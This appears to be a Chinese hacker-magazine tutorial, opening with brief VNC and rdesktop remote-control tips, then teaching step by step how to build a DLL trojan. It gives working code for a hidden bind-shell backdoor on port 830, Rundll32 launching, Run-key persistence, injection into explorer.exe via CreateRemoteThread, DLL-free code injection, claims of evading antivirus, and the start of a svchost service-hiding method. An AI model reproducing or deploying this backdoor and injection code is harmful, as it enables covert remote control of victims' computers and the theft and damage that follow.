[root@hackbase root]# vncserver -kill :n
```

提示：其中 `n` 表示已打开的显示装置编号，编号从 1 开始。

### （四）VNC 客户端

在 Windows 下运行 VNC 客户端，需要下载 Windows 版本客户端。图4为 VNC 客户端连接远程服务器界面。

在 Connection details 中输入 VNC 服务器 IP 与显示装置编号（中间用冒号隔开）；点击 Options 可设置编码、色彩、显示方式与窗口大小等。

连接后会进行口令验证，输入首次启动 VNC 服务时设置的口令，通过后可进入 X Window 图形界面。

若暂时找不到 VNC viewer，也可通过 Web 浏览器远程控制，在地址栏输入：

```text
http://VNC服务器IP地址:5800+显示装置编号
```

即可进行口令验证并完成远程管理。图5显示 Web 界面认证，图6显示认证后远程 Linux 图形界面。

# 主题乐园

## 三、Linux 中使用终端服务远程控制 Windows

既然想在 Linux 中使用终端服务远程控制 Windows，那么就要在 Linux 中先配置好终端服务的控制端。在 Linux 中安装终端服务的程序包在 3 号安装盘中，安装包名称为 `rdesktop-1.2.0-1.i386.rpm`。安装该组件的方法很简单，过程如下：

- [主菜单]→[系统设置]→[添加/删除应用程序]→[系统]→[系统工具]→[rdesktop 在 X 中显示 Windows 终端服务器桌面]

如图 7。

现在就可以在 Linux 中使用终端服务远程控制 Windows 了，打开“终端”输入以下命令，即可运行 Windows 2000 Advanced Server 的远程登录，如图 8。

```bash
[root@hackbase root]# rdesktop -u "用户名" IP地址
```


噢，Linux 下玩转远程操控是不是很简单啊，只要您有恒心和毅力，学好计算机知识不是难事，相信您做的一定会比我更好。偶还是个菜鸟，由于能力和水平所限，文中具体内容若有疏漏、欠妥和错误之处，恳请各位黑友一如既往，多加指正，以便今后不断改进。

## 告别菜鸟 比比谁与编程并肩

在经过了 X2005 年第 3 期《菜鸟后门编写步步高》、第 8 期《VC 编程初级教程》等基础专题的学习后，我们当然要把技术深入下去，这次就进入 DLL 木马的编写吧！

比如 Windows 就有很多未公开的 DLL 导出函数，牛人们利用查看导出表和反编译的手段，得到了很多 Windows 的未公开但很有用的导出函数，《Undocumented Windows API》就是一本经典书籍，全是微软未公开的函数，被系统研究者们奉为圣经！因为 DLL 文件本身并不可以运行，需要应用程序调用，加载时驻留内存，所以运行 DLL 函数的时候，不会看到 DLL 的进程，而且 DLL 文件在使用时又无法删除，所以对隐蔽性、抗删除性有特殊要求的木马有很大的吸引力。

### 一、DLL 简介

我们要编写 DLL 木马，当然就要知道“DLL”是什么含义。DLL 的全称是 Dynamic Link Library，即动态链接程序库。其对应相对静态链接。DOS 时代，程序员们把很多常用代码集合放进一个独立文件里，并把这个文件称为“库”（Library）。在写程序的时候，把这个库文件加入编译器，就能使用这个库包含的所有功能，而不必自己再去写一大堆代码。后来 Windows 系统出现，使用了“动态链接”（Dynamic Link）技术，可以只装载我们想用的东西，DLL 的名字就是这样来的。DLL 的格式和 EXE 文件一样，但不能直接执行，它把代码封装在自身内部，只提供接口让外部 EXE 程序调用。

### 二、普通 DLL 程序的编写

首先举个实际的例子，使用 VC 实现一个普通的 DLL 程序。如何使用 VC 编写程序的问题就不再讨论了，大家可以参考相关基础教程。这里我们只讨论 DLL 的编程。在 VC 中编写 DLL 和编写一般程序其实差不多，都是利用 C/C++ 语言，通过变量、语句来实现函数；不同点是要告诉编译器，生成 DLL 文件而不是 EXE 文件，并且声明要导出的函数有哪些。在 DLL 中导出函数有两种方法，一种是在工程模块定义 DEF 文件中声明；另一种是在函数定义的前面使用 `__declspec(dllexport)` 关键字来表明该函数是导出函数。我们在编写中，把两种方法都试一下。打开 VC，新建一个工程，选择 Win32 Dynamic-Link Library 工程，即 Win32 DLL 工程，如图 1。


把工程命名为 `dllTest`，在选择生成 DLL 的代码时，选择 “A simple DLL Project”，如图 2。


再点 “Finish”，VC 就会自动生成一个含有简单代码的 DLL 工程，如图 3。


从图中可以看到，生成的代码只有一个 `DLLMain` 函数，这是 DLL 程序的入口点，是一个 DLL 程序所必备的。此时如果直接按 F7（生成 `dllTest.dll`），即使不写额外代码，也会在 Debug 目录下生成 `dllTest.dll`。虽然生成了 DLL，但功能尚未实现，只是一个空壳子。

接着我们在 DLL 中加上我们的代码，实现函数，并把函数导出，供 EXE 程序调用和测试。在 `DLLMain` 函数中加入 `MessageBox(NULL, "This is in test Dll", "OK", MB_OK);`，可以在进入入口函数时弹出对话框。然后编写三个函数 `int TestExport()`、`int TestIn()`、`int TestDef()`，分别返回 1、2、3。

从函数名就可以看出来，是用它们来测试 DLL 的导出情况。其中，对 `TestExport()` 在定义前加上 `__declspec(dllexport)`；对 `TestDef()` 则不加导出声明，而在工程中新建 DEF 文件 `EXPORT.DEF`，内容如下：

```def
LIBRARY dllTest
EXPORTS
    TestDef @1
```

表明 DLL 要导出 `TestDef` 这个函数。而对于 `TestIn()` 则什么都不做，后面将看到外部 EXE 无法调用。合起来，编写结果如图 4。


此时按 F7，就会在 Debug 文件夹下生成 `dllTest.dll` 和 `dllTest.lib` 文件，如图 5。


我们用 VC 自带工具 Depends 分析 `dllTest.dll`，可以看到该 DLL 有两个导出函数 `TestDef` 和 `TestExport`，而没有定义导出的 `TestIn` 看不见。通过这个例子可知 DLL 的编写及导出方法。接着可写一个 EXE 测试程序调用 DLL：新建 Win32 Application 工程（如 `ExecuteDllTest`），先生成框架代码，再加入 `#pragma comment(lib,"dllTest")` 等链接设置。


使用 `dllTest.dll` 中的导出函数，然后定义 `int TestDef();` 和 `int TestExport();` 两个函数原型，接着在 `WinMain` 函数中加上对函数的调用和测试。

```cpp
int result = TestDef();
strDisplay[0] = '0' + result;
MessageBox(NULL, strDisplay, "Answer", MB_OK);
```

这几段代码的意思是得到 `TestDef()` 函数的返回值，然后弹出对话框并显示出来。我们就可以观察得到的值是否正确。同样对 `TestExport()` 函数也一样处理。

```cpp
result = TestExport();
strDisplay[0] = '0' + result;
strDisplay[1] = '\0';
MessageBox(NULL, strDisplay, "Answer", MB_OK);
```

具体代码参看 `ExecuteDllTest` 工程。把 `dllTest.dll` 和 `dllTest.lib` 拷贝到工程目录后运行，可看到先弹出 `DllMain` 中的对话框（图7），随后 `TestDef()` 返回值为 3（图8），`TestExport()` 返回值为 1（图9）。最后又会再次弹出 `DllMain` 的对话框，因为 DLL 加载与卸载都会进入 `DllMain`。


改进办法是通过参数 `DWORD ul_reason_for_call` 来加以区分，只在 `DLL_PROCESS_ATTACH` 时弹出对话框，这样就只在加载时执行一次。

```cpp
BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // 获取当前进程ID
        MessageBox(NULL, "This is in test DLL", "OK", MB_OK);
        break;
    default:
        return TRUE;
    }
    return TRUE;
}
```

再深入一点，如果尝试调用 `TestIn()`（一个未导出的函数），在链接阶段会报错，说明外部找不到该函数实现，也就无法调用。

```text
Linking...
ExecuteDllTest.obj : error LNK2001: unresolved external symbol "int __cdecl TestIn(void)"
Debug/ExecuteDllTest.exe : fatal error LNK1120: 1 unresolved externals
Error executing link.exe.
```

从这个例子可见，DLL 编写与普通 EXE 类似，关键在于导出函数。若将导出函数替换为木马功能，就可形成 DLL 木马。

### 三、一个 DLL 木马

基于前文思路，介绍把双管道 telnet 后门代码改写为 DLL 木马。新建 Win32 DLL 工程，在 DLL 主文件中声明 `__declspec(dllexport) int cmdpipe2();`，并实现相应函数。

```cpp
__declspec(dllexport) int cmdpipe2()
{
    WSADATA ws;
    SOCKET listenFD;
    char Buff[1024];
    int ret;

    // 初始化 wsa
    WSAStartup(MAKEWORD(2,2), &ws);
    // 建立 socket
    listenFD = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    // 监听本机830端口
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(830);
    server.sin_addr.s_addr = INADDR_ANY;
    ret = bind(listenFD, (sockaddr *)&server, sizeof(server));
}
```

```cpp
ret=listen(listenFD,2);
// 如果客户端请求 830 端口，接受连接
int iAddrSize=sizeof(server);
SOCKET clientFD=accept(listenFD,(sockaddr*)&server,&iAddrSize);

SECURITY_ATTRIBUTES pipeattr1, pipeattr2;
HANDLE hReadPipe1,hWritePipe1,hReadPipe2,hWritePipe2;

// 建立匿名管道1
pipeattr1.nLength=12;
pipeattr1.lpSecurityDescriptor=0;
pipeattr1.bInheritHandle=true;
CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);

// 建立匿名管道2
pipeattr2.nLength=12;
pipeattr2.lpSecurityDescriptor=0;
pipeattr2.bInheritHandle=true;
CreatePipe(&hReadPipe2,&hWritePipe2,&pipeattr2,0);

STARTUPINFO si;
ZeroMemory(&si,sizeof(si));
si.cb=sizeof(si);
si.dwFlags=STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
si.wShowWindow=SW_HIDE;
si.hStdInput=hReadPipe2;
si.hStdOutput=si.hStdError=hWritePipe1;
char cmdline[]="cmd";
PROCESS_INFORMATION ProcessInformation;
ret=CreateProcess(NULL,cmdline,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);

// 解释：创建 cmd.exe，并通过两根管道重定向输入输出
unsigned long lBytesRead;
while(1){
    // 检查管道1（cmd输出）
    ret=PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
    if(lBytesRead){
        ret=ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0);
        if(!ret) break;
        ret=send(clientFD,Buff,lBytesRead,0);
        if(ret<=0) break;
    }else{
        // 接收远程命令并写入管道2（cmd输入）
        lBytesRead=recv(clientFD,Buff,1024,0);
        if(lBytesRead<=0) break;
        ret=WriteFile(hWritePipe2,Buff,lBytesRead,&lBytesRead,0);
    }
}
```

```cpp
if(ret) break;
...
return 0;
```

该后门代码的功能是监听本机的 830 端口，如果有客户端连接，就给对方一个 DOS Shell。该代码分析及改进为单管道、零管道等问题可参考《菜鸟后门编写步步高》一文。在 VC 中按 F7，生成一个 DLL，该 DLL 可是我们自己编写的 DLL 木马哦！

测试一下这个 DLL 木马。建立一个名为 `ExcutemumaDll` 的 Win32 测试应用程序，把刚才生成的 DLL 和 LIB 文件拷贝到该工程的同一目录下。在测试程序的头部，加上 `#pragma comment(lib,"dllTest")` 和 `int cmdpipe2();` 函数的声明，而在测试程序的主函数 `WinMain` 中，只有一句话，就是执行 `cmdpipe2()`，如图10。


按 Ctrl+F5 执行，在 cmd 控制台下输入 `netstat -an` 可以看到，果然本机打开了 830 端口，如图11。输入 `Telnet 127.0.0.1 830`，得到了一个 DOS Shell，可以执行任意 DOS 命令。测试成功！和《菜鸟后门编写步步高》对比，可以发现 EXE 木马和 DLL 木马功能并没什么两样，如图12。


打开 Windows 任务管理器，找不到 `dllTest` 这个 DLL 进程的身影。只能看到测试程序 `ExecuteDllTest` 的进程，如图13。这就是 DLL 木马的特性——不会有自己的进程，只有宿主程序的进程，这一点是我们实现 DLL 木马各种隐藏方法的基础。

### 四、DLL 木马模板


可以的，方法就是利用 **Rundll32.exe** 程序。从名称就可以看出，Rundll32.exe 的作用为执行 32 位的 DLL 文件，也就是说，它可以执行 32 位 DLL 文件的导出函数。利用它来执行 DLL 木马时，进程中通常只会看到 Rundll32.exe，不会直接看到具体 DLL 与函数名，因此有较强的隐蔽性。

```text
Rundll32.exe DLLname,Functionname [Arguments]
```

其中 DLLname 为需要执行的 DLL 文件名；Functionname 为 DLL 文件导出函数；[Arguments] 为函数参数，可为空。对于前面编写的 DLL 木马程序，若调用 `cmdpipe2` 函数，可执行：

```text
Rundll32.exe dllTest.dll, cmdpipe2
```


形成规范，成为一个 DLL 木马模板。之后可在此模板基础上扩展功能。在 DLL 木马中添加导出函数（如 `__declspec(dllexport) int door()`），重新生成 DLL 并在测试程序中调用后可再次执行成功。


这样 DLL 木马功能虽得到增强，但仍依赖宿主进程（如 `ExecuteDllTest.exe`）。若宿主程序被发现并终止，DLL 木马也会失效，因此还需改进其启动方式与隐蔽性。

### 五、利用 Rundll32 启动 DLL

虽然不再出现独立 DLL 进程，但测试程序（宿主 EXE）仍明显。将 DLL 木马改由系统程序 `Rundll32.exe` 调用，可进一步降低可见性；并可配合启动项（如 Run 键）实现开机自动执行。

接着可以发现测试成功后，可通过在注册表启动项中加入 `Rundll32.exe + DLL名 + 函数` 的方式，在开机时自动调用 DLL 木马函数。文中还提及通过 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 等位置配置启动项，以提升持久化与隐蔽性。

该方法相比直接运行可疑宿主程序更不易被普通用户注意，但也并非绝对安全。为继续增强效果，文中引出在其他进程中调用 DLL 的思路，即后续“远程注入”技术。

### 六、DLL 远程注入

### 6.1、DLL 木马的基本注入

刚才使用 Rundll32 启动虽巧妙，但仍可能被发现。若把 DLL 代码注入到正常系统进程（如 `explorer.exe`、`IEXPLORE.EXE`）中执行，则隐蔽性更强。Windows 中每个进程有私有内存空间，通常不允许其他进程直接操作，但可借助“远程线程”等方法把代码嵌入目标进程并运行。

```cpp
int APIENTRY WinMain(HINSTANCE hInstance,
                     HINSTANCE hPrevInstance,
                     LPSTR lpCmdLine,
                     int nCmdShow)
```

# 主题乐园

```c
if (InjectDll(szXJdllTest_dll, 1884)) {
    printf("Inject Ok!\n");
} else {
    printf("Inject Fail!\n");
}
return 0;
```

```c
tp.Privileges[0].Luid = luid;
// 提权
if (AdjustTokenPrivileges(hToken, 0, &tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {
    ...
} else {
    printf("AdjustTokenPrivileges error\n");
    return 1;
}
return 0;
```

看起来很简单吧，InjectDll 函数是完成功能的最主要部分，第一个参数是 DLL 木马的绝对路径，第二个参数是要注入进程的 PID 号，可以通过 Ctrl+Alt+Del 调出 Windows 任务管理器看到，如图 16，是 1884。


每次启动，explorer 的 PID 号都是不同的，这就需要手工修改源程序来完成执行。这一点我们在后面会加以改进，让程序自动寻找注入进程，不用人工指定 PID 号。

注入首先需要把用户权限提升到 Debug 权限，EnableDebugPriv 函数如下，是很有用的一个模板函数。

```c
int EnableDebugPriv(const char *name)
{
    HANDLE hToken;
    TOKEN_PRIVILEGES tp;
    LUID luid;

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) {
        printf("OpenProcessToken error\n");
        return 1;
    }

    if (!LookupPrivilegeValue(NULL, name, &luid)) {
        printf("LookupPrivilege error\n");
        return 1;
    }

    tp.PrivilegeCount = 1;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    ...
}
```

接下来就是真正完成功能的 InjectDll 函数了。

```c
BOOL InjectDll(const char* DllFullPath, const DWORD dwRemoteProcessId)
{
    HANDLE hRemoteProcess;

    if (!EnableDebugPriv(SE_DEBUG_NAME)) {
        printf("add privilege error!");
        return FALSE;
    }

    hRemoteProcess = OpenProcess(
        PROCESS_CREATE_THREAD |
        PROCESS_VM_OPERATION |
        PROCESS_VM_WRITE,
        FALSE,
        dwRemoteProcessId);
    if (hRemoteProcess == NULL) {
        printf("OpenProcess error!\n");
        return FALSE;
    }

    char *pszLibFileRemote;
    pszLibFileRemote = (char*)VirtualAllocEx(
        hRemoteProcess,
        NULL,
        strlen(DllFullPath) + 1,
        MEM_COMMIT,
        PAGE_READWRITE);
    if (pszLibFileRemote == NULL) {
        printf("VirtualAllocEx error!\n");
        return FALSE;
    }

    if (WriteProcessMemory(
            hRemoteProcess,
            pszLibFileRemote,
            (void*)DllFullPath,
            strlen(DllFullPath) + 1,
            NULL) == 0) {
        printf("WriteProcessMemory error!\n");
        return FALSE;
    }

    PTHREAD_START_ROUTINE pfnStartAddr =
        (PTHREAD_START_ROUTINE)GetProcAddress(
            GetModuleHandle(TEXT("Kernel32")),
            "LoadLibraryA");
    if (pfnStartAddr == NULL) {
        printf("GetProcAddress error!\n");
        return FALSE;
    }

    // 启动远程线程 LoadLibraryA ...
}
```

```c
HANDLE hRemoteThread;
hRemoteThread = CreateRemoteThread(
    hRemoteProcess,
    NULL,
    0,
    pfnStartAddr,
    pszLibFileRemote,
    0,
    NULL
);

if (hRemoteThread == NULL) {
    printf("CreateRemoteThread error\n");
    return FALSE;
}

return TRUE;
```

程序这么多，但透过现象看本质，就是让别的进程（这里是“explorer.exe”）执行 `LoadLibrary("muma.dll")`，这样它在 `LoadLibrary()` 时就会执行 DLL 木马中 `DllMain()` 里的内容，完成“借壳”执行 DLL 木马的目的。

因为通过 `LoadLibrary` 只能执行 `DllMain()` 里面的代码，所以稍微更改一下我们的 DLL——在 `DllMain()` 中调用木马函数 `door()`。

```c
BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        MessageBox(NULL, "in the DLL", "OK", MB_OK);
        door();
        break;
    default:
        return TRUE;
    }
    return TRUE;
}
```

为可视化起见，先用 `MessageBox()` 弹出对话框，然后调用 `door()`。编译生成 DLL 后拷贝到目标目录，修改注入程序参数并测试。对话框成功弹出，说明 DLL 木马执行成功，注入成功。

但很快会发现鼠标几乎失去响应。原因是注入到 `explorer.exe` 后，在 `DllMain` 中直接执行 `door()`，而后门函数是异步/阻塞性质，导致系统关键进程被拖住，整体系统处理被阻塞。

解决方案是在 `DllMain` 中不直接执行 `door()`，而是创建一个后门线程，`DllMain` 立即返回；在线程中再执行 `door()`，从而避免阻塞 `explorer` 的其他功能。

## 6.2 木马注入的多线程改进

有了思路，我们来实现创建后门线程。这涉及多线程编程。对用户来说，只需理解多线程含义，然后使用 `CreateThread` 函数建立线程即可。

```c
HANDLE CreateThread(
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    SIZE_T dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    LPDWORD lpThreadId
);
```

第一个参数 `lpThreadAttributes` 指向 `SECURITY_ATTRIBUTES`；第二个参数 `dwStackSize` 表示线程栈大小（0 为默认）；第三个参数 `lpStartAddress` 是线程函数地址；第四个参数 `lpParameter` 是线程参数；第五个参数 `dwCreationFlags` 控制创建标志（如 `CREATE_SUSPENDED`）；最后 `lpThreadId` 返回线程 ID。

在 DLL 木马场景里，可重点使用 `lpStartAddress`，其他参数多置为 `NULL`。将 `door()` 改为线程函数签名，例如 `DWORD WINAPI door(LPVOID lpParam)`，并在 `DllMain` 中调用：`CreateThread(NULL, NULL, door, NULL, NULL, NULL);`。

```c
BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        MessageBox(NULL, "in the DLL", "OK", MB_OK);
        // 改进线程
        // door();
        CreateThread(NULL, NULL, door, NULL, NULL, NULL);
        break;
    default:
        return TRUE;
    }
    return TRUE;
}
```

完整的代码大家可以参看 dllMainMuma2thread 目录。我们编译程序，重新生成 DLL 木马后拷贝到 C 盘根目录，再运行注入程序。这次再点了 OK 对话框后，机器还是一切正常。仔细看，也没有 injectedll.exe 这个进程，隐藏进程算是完美成功了！

怀着激动的心情，telnet 830，可爱的木马 shell 又出来了！

需要提醒的是，这里使用的多线程编程比较简单，直接建立线程返回即可，但在更复杂的、有参数传递的多线程编程时，线程同步是一个很重要的问题。有可能传给线程的参数还没有被使用，外部就已经将其改变了，那线程运行的结果自然就不对了。为了达到线程同步的目的，可以使用事件、原子、临界区、互斥等方法。

## 6.3 自动查找进程号注入

改进完 DLL 木马本身，再看看注入程序。刚才的注入程序，使用的是 explorer 进程的 PID 值来进行注入。前面也说过，不同的机器，或者相同的机器任意重启后，进程的 PID 值都会随机改变。我们就需要人工改写注入源程序里的 PID 值，然后重新编译，生成 exe 程序后执行。

但对于一个真正的木马，如果需要在每次运行前修改源代码再运行，简直是一件不可想象的事情。所以我们一定要加以改进。

我们加入一个函数，让程序自动查找 explorer 进程的 PID 号，然后再实现注入。调用如下：

```c
procid = getprocid("explorer.exe"); // 得到进程PID
InjectDll("c:\\dllTest.dll", procid);
```

而寻找 explorer 进程的 PID 号的 getprocid 函数如下：

```c
unsigned long getprocid(char *pn)
{
    BOOL b;
    HANDLE hnd;
    PROCESSENTRY32 pe;
    // 得到进程快照
    hnd = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    pe.dwSize = sizeof(pe);
    b = Process32First(hnd, &pe);
    while (b)
    {
        // 比较，如果进程名是 explorer.exe 就返回PID值
        if (lstrcmpi(pn, (char *)pe.szExeFile) == 0)
            return pe.th32ProcessID;
        b = Process32Next(hnd, &pe);
    }
    return 0;
}
```

程序比较简单，也加入了原理注释。将这段代码加入到原来的那个注入程序中，得到改进后的 InjectDllAutoFindExploit，它每次自动查找 explorer.exe 进程的 PID，然后再注入 DLL 木马中的内容，自动完成所有的注入过程。

再次测试，顺利成功！一个真正的 DLL 木马和注入程序终于打造完成了！而且还不会被查杀哦：）

## 6.4 直接注入 exe 程序

虽然 DLL 木马和注入程序都完美完成了，但我们再反回去看看整个注入过程，其实就是在远程 explorer.exe 进程中执行 `LoadLibrary("dllTest.dll")` 这句代码，从而使远程进程接着去执行 DLL 主函数中的功能。

说白了，注入的实质就是让远程进程执行 `LoadLibrary("dllTest.dll")`！

那么举一反三地想想，既然我们可以让远程进程执行一句代码，那也可以尝试让远程进程执行多句代码，甚至直接执行我们所有的后门代码。这样的话连 DLL 都不必使用了！

说做就做，我们就在远程进程中写入我们的后门函数和参数，然后直接执行！注意的是，`LoadLibraryA` 和 `GetProcAddress` 的地址在各个进程中是一样的，但其他函数地址可能不同（DLL 加载位置不同），所以注入的木马程序需要先在远程进程中查找各个函数的地址，然后再调用这些地址执行。如果写过 ShellCode 的话，就会更明白其原理（可以参看 X 档案 2004 年 8 月的《缓冲区溢出编程步步高》等题）。

首先定义一个结构来存放需要查找的函数。

```c
struct MPARA {
    DWORD M_LoadLibrary;
    DWORD M_GetProcAddress;
    char  libname[32];
    char  f_WSAStartup[16];
    char  f_socket[16];
    char  f_bind[16];
    char  f_listen[16];
    char  f_accept[16];
    char  f_send[16];
    char  f_recv[16];
    char  f_closesocket[16];
    struct sockaddr_in addr;
    char  s_help[128];
};
```

然后注入的程序如下。首先定义 `LoadLibrary` 和 `GetProcAddress`，并通过传入的地址进行地址赋值，然后通过这两个函数查找所需要的其他网络函数地址，最后就是真正完成木马功能的代码了。

```c
DWORD __stdcall FRP(MPARA *p)
{
    // 定义 LoadLibrary 和 GetProcAddress
    HMODULE (__stdcall *M_LoadLibrary)(char *c);
    FARPROC (__stdcall *M_GetProcAddress)(HMODULE hmod, char *fname);

    // 得到传入的 LoadLibrary 和 GetProcAddress 的地址
    M_LoadLibrary = (HMODULE (__stdcall *)(char *c))p->M_LoadLibrary;
    M_GetProcAddress = (FARPROC (__stdcall *)(HMODULE, char *))p->M_GetProcAddress;

    // 定义需要用到的网络函数
    int (__stdcall *M_WSAStartup)(DWORD, LPWSADATA);
    SOCKET (__stdcall *M_socket)(int, int, int);
    int (__stdcall *M_bind)(SOCKET, sockaddr*, int);
    int (__stdcall *M_listen)(SOCKET, int);
    SOCKET (__stdcall *M_accept)(SOCKET, sockaddr*, int*);
    ...
}
```

```c
/* 代码内容（左栏） */
...（包含 socket / bind / listen / accept / send / recv / closesocket 等函数指针定义与初始化）
...（包含 WSADATA、SOCKET、缓冲区、循环处理等服务端逻辑）
```

```c
/* 代码内容（右栏） */
...（包含接收缓冲区处理、命令判断分支、发送响应等逻辑）
...（包含对回车/退格/可打印字符等输入处理）
```

# 主题乐园

```c
...
c = cmd[i] = 0;
...
if (c == 0)
{
    if (M_closesocket) c(c);
    break;
}
...
return 0;
```

```c
strcpy(name, host->h_addr_list[0]);
printf("Bind to %s", name);
mp.addr_sin_addr.S_un.S_addr = inet_addr(name);
mp.addr_sin_family = AF_INET;
mp.addr_sin_port = htons(7000);

/* 写入远程参数 */
void *lpR = VirtualAllocEx(hnd, NULL, sizeof(mp), MEM_COMMIT, PAGE_READWRITE);
WriteProcessMemory(hnd, lpR, &mp, sizeof(mp), NULL);

/* 建立线程 */
CreateRemoteThread(hnd, 0, 0, (DWORD (__stdcall*)(void*))lpPEX, lpR, 0, &dwtid);
```

而主函数要做的事情，就是提升权限，获取 PID 值，然后初始化注入参数——两个函数地址和网络函数名，写入到远程进程中，最后在远程进程中创建线程，执行木马函数。具体的代码如下：

```c
void main()
{
    HANDLE hnd;
    DWORD dwtid;
    struct MPARA mp;
    unsigned long ThreadSize = 4028 * 2;

    SetAut(); // 提升进程权限

    DWORD procid;
    procid = getprocid("Explorer.EXE");
    procid = getprocid("notepad.exe");
    if (procid == 0) return;
    hnd = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procid);

    /* 写入线程体 */
    void *lpEX = VirtualAllocEx(hnd, NULL, ThreadSize,
      MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hnd, lpEX, &RP, ThreadSize, NULL);

    /* 初始化注入参数 */
    mp.M_LoadLibrary = (DWORD)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    mp.M_GetProcAddress = (DWORD)GetProcAddress(GetModuleHandle("kernel32.dll"), "GetProcAddress");
    strcpy(mp.libname, "wsock32.dll");
    strcpy(mp.fstart, "WSAStartup");
    strcpy(mp.fsocket, "socket");
    strcpy(mp.fbind, "bind");
    strcpy(mp.flisten, "listen");
    strcpy(mp.faccept, "accept");
    strcpy(mp.fsend, "send");
    strcpy(mp.frecv, "recv");
    strcpy(mp.fclosesocket, "closesocket");
    strcpy(mp.s_help, "Commands:\r\n bye...\r\n help...");
    mp.s_help[0] = strlen(mp.s_help);

    WSADATA wsa;
    char name[28];
    hostent *host;
    WSAStartup(0x0101, &wsa);
    gethostname(name, 28);
    host = gethostbyname(name);
    ...
}
```

具体工程请参看光盘收录的“直接插入本身”目录。我们编译生成 injectdll.exe 后，直接运行就可以完成注入！而且无 DLL，无进程，唯一需要做的就是将这个 injectdll.exe 启动一下，就完成注入和木马功能的执行。

## 借尸首换系统服务启动 DLL 木马

前面使用的方法，满足了绝大部分需求，隐藏了运行时的进程，甚至可以没有 DLL 文件本身。但是，需要执行一次 exe 来实现注入，而机器在启动时执行一个 exe 程序，很大可能是放在注册表启动项中完成的，那这个注册表启动项的改动，将会是 DLL 木马很大的软肋。

有没有更隐蔽，不用自己的 exe，不用注册表启动项，直接启动 DLL 木马的方法呢？

啊，当然了，完全不用 exe 是不可能的（如果没有任何触发就自动执行一个程序，那才叫奇怪了呢）。这里说的不用 exe，是不使用自己的 exe，而是利用系统自己的 svchost.exe 来加载我们的 DLL 木马。

这里先说下 svchost.exe 的原理（这里参考的是 bingle 的《创建 SvChost.exe 调用的服务原理与实践》，bingle 已经说得很详细了，感觉没必要自己再叙述，为了更便于理解，加了些直观的图和解释，特此说明）：

Windows 系统服务分为独立进程和共享进程两种。在 Windows 2000 中微软把很多服务做成共享方式，由 svchost.exe 启动。Windows 2000 一般有 2 个 svchost 进程，一个是 RPCSS（Remote Procedure Call）服务进程，另外一个则是由很多服务共享的一个 svchost.exe；而在 Windows XP 中，则一般有 4 个以上的 svchost.exe 服务进程，Windows 2003 Server 中则更多。

Svchost 本身只是作为服务宿主，并不实现任何服务功能。需要 Svchost 启动的服务以动态链接库形式（DLL）实现。在安装这些服务时，把服务的可执行程序指向 svchost，启动这些服务时由 svchost 调用相应服务的动态链接库（DLL）来启动服务。

那么 svchost 如何知道某一服务由哪个动态链接库（DLL）负责呢？这不是由服务的参数提供的，而是服务在注册表中的参数设置的。注册表中，各个服务下边有一个 Parameters 子键，其中的 ServiceDll 表明该服务由哪个动态链接库（DLL）负责。并且所有这些服务 DLL 都必须要导出一个 ServiceMain() 函数，svchost 就可以用 ServiceMain() 函数为接口（如同 DLL 的 DllMain 函数结果）来处理服务任务了。

服务在注册表中的位置是：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RpcSs`，它的参数子键 `Parameters` 里有这样一项：`"ServiceDll"=REG_EXPAND_SZ:"%SystemRoot%\system32\rpcss.dll"`，大家可以在注册表中找一下，如图17。


该参数指明了其使用 DLL 的位置。当启动 `rpcss` 服务时，`svchost` 就会调用 `%SystemRoot%\system32\` 下的 `rpcss.dll`，执行其 `ServiceMain()` 函数执行具体服务。

虽然服务是使用共享进程方式由 `svchost` 启动的，但微软把这些服务分为几组，同组服务共享一个 `svchost` 进程，不同组服务使用不同的 `svchost` 进程，所以系统中会有多个 `svchost` 进程。而各个服务组的区别是由服务的可执行程序启动的参数决定的。

例如 `rpcss` 在注册表中 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RpcSs` 有这样一项：`"ImagePath"=REG_EXPAND_SZ:"%SystemRoot%\system32\svchost -k rpcss"`，因此 `rpcss` 就属于 `rpcss` 组，我们通过服务管理控制台也可以看到，如图18。


`svchost` 的所有组和组内的所有服务都在注册表如下位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost`。例如 Windows 2000 共有 4 组：`rpcss`、`netsvcs`、`wugroup`、`BITSgroup`，其中最多的是 `netsvcs`（后接多个服务名），如图19。


在启动一个 `svchost.exe` 负责的服务时，服务管理器如果遇到可执行程序内容 `ImagePath` 已经存在于服务管理器的映像库中，就不再启动第 2 个进程 `svchost`，而是直接启动服务。这样就实现了多个服务共享一个 `svchost` 进程。

